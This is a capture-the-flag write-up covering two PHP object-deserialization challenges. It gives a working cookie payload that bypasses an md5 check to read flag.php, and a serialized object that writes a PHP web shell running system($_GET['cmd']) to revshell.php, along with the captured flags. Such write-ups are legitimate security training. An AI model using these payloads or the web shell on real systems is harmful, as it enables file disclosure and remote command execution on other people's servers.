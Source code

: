 # free-as-in-beer ![c](https://img.shields.io/badge/solved-success)
### Analysis
Let's analyze the source code given to us in the page. We can clearly see that there is an unserialization of a cookie (looks sooooo bad) when the first 32 chars of the cookie named "todos" are equal to the md5 hash of the last 32 chars.
That is, the PHP code reads the input from the user with a GET, calculates the hash and concatenates it with the raw input, and then sets it as a cookie.

Moreover, we can notice a really interesting object called GPLSourceBloater with a magic method __toString() in it (looks even worse).

Knowing that we can try to bypass the hash condition, crafting our cookie, and modify the *source* parameter of the GPLSourceBloater object in order to read a specific file (we know that the flag is in flag.php).

### Exploit
This is the final paylod to insert as *todos* cookie: 

```760463360e4919ca238d1566fc26661fa:1:{i:0%3bO:16:"GPLSourceBloater":1:{s:6:"source"%3bs:8:"flag.php"%3b}}```.

Note: we must pass the md5 hash, then the serialization of an array (because todos is a list of todo) that contains our object.

![Alt text](./cookie_burp.PNG?raw=true "Title")

**flag{This_flAg_1s_really_fr33_a5_in_PhP}**

# 1024 ![c](https://img.shields.io/badge/solved-success)
### Analysis
### Exploit
```
O:7:"Ranking":3:{s:7:"ranking";s:34:"<?php echo system($_GET['cmd']);?>";s:7:"changed";b:1;s:4:"path";s:20:"./games/revshell.php";}
```
![Alt text](./result_1024.PNG?raw=true "Title")

**flag{never_deserialize_user_input!}**
